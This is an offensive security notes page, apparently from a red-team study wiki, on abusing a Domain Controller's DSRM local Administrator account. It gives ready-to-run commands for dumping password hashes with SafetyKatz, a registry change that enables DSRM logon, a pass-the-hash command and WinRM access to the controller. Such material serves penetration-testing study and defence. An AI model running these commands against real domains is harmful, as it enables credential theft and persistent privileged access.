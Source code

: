 # DSRM

Every Domain Controller (DC) contains a **built-in local Administrator account** used for Directory Services Restore Mode (DSRM). This account is created during DC promotion and protected with a password (`SafeModePassword`) that is **often never rotated post-deployment** — making it a valuable and persistent credential target.

<figure><img src="../../../.gitbook/assets/dsrm_config (1).png" alt=""><figcaption></figcaption></figure>

Although this Administrator account is local to the DC and not part of AD, if the DC is misconfigured, the DSRM account can be abused for [Pass-the-Hash (PtH)](../lateral-movement/pass-the-hash.md) attacks. With Domain Admin (DA) privileges, its NTLM hash can be extracted using tools like [SafetyKatz](broken-reference):

```powershell
# Extract the DSRM password hash (requires DA privileges)
SafetyKatz.exe "token::elevate" "lsadump::sam" "exit"
```

To confirm it belongs to the DSRM account and not the DA, compare it with the output of:

```powershell
# Extract the DA password hash
SafetyKatz.exe "lsadump::lsa /patch" "exit"
```

By default, the DSRM Administrator cannot log in while the system is running in normal (non-DSRM) mode. To enable login using the DSRM account, the registry key on the DC must be modified:

{% code overflow="wrap" %}
```powershell
# Allow DSRM account login in normal mode
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f
```
{% endcode %}

Once enabled, a PtH attack can be perform using the DSRM account’s hash — note that the domain must be set to the **DC's hostname**, not the AD domain (as it would be for an [Overpass-the-Hash](../lateral-movement/overpass-the-hash.md) attack):

{% code overflow="wrap" %}
```powershell
# PtH with DSRM credentials
SafetyKatz.exe "sekurlsa::pth /domain:dcorp-dc /user:administrator /ntlm:<ntlm> /run:powershell.exe" "exit"
```
{% endcode %}

To access the DC via WinRM (e.g., using PowerShell remoting), ensure the host is trusted and reachable:

{% code overflow="wrap" %}
```powershell
# Add the DC as a trusted host (required to access it with RC4 via WinRM)
Set-Item WSMan:\localhost\Client\TrustedHosts 172.16.2.1

# Access the DC via WinRM using the NT hash
Enter-PSSession -cn 172.16.2.1 -Authentication NegotiateWithImplicitCredential
```
{% endcode %}

This technique allows lateral movement directly into the Domain Controller using a long-lived, often-overlooked local account. While powerful, it depends on misconfiguration and the attacker having DA rights for hash extraction and registry changes.
